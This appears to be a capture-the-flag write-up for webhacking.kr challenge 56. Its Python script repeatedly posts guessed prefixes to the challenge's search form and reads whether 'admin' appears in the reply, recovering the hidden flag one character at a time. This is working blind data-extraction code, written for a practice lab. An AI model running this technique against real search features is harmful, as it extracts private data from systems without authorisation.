




# 56 



> TIP
> Write any letters and found out the search was searching also includes text inside
> Since we know flags starts with `flag{`, we can use that for our initial keywords 

```py
import requests
from bs4 import BeautifulSoup

URL="https://webhacking.kr/challenge/web-33/index.php"

search_str = "flag{"
next_letter = '!'

# If there is admin
while 1:

    #first letter to check

    check_search = search_str + next_letter

    print(check_search)
    res  = requests.post(URL, data={'search': check_search})
    soup = BeautifulSoup(res.text, 'html.parser')

    print(soup.find_all(text="admin"))
    # found admin
    if(soup.find_all(text="admin")):
        print("Found!")
        search_str = check_search
        next_letter = '!'
    else:
        next_letter = chr(ord(next_letter)+1);
        if(next_letter == '%'):
            next_letter = chr(ord(next_letter)+1);


    if(next_letter == '}'):
        print("Done",search_str)
        break;
```



When the program is done running the flag is following



Now shove it in Auth!




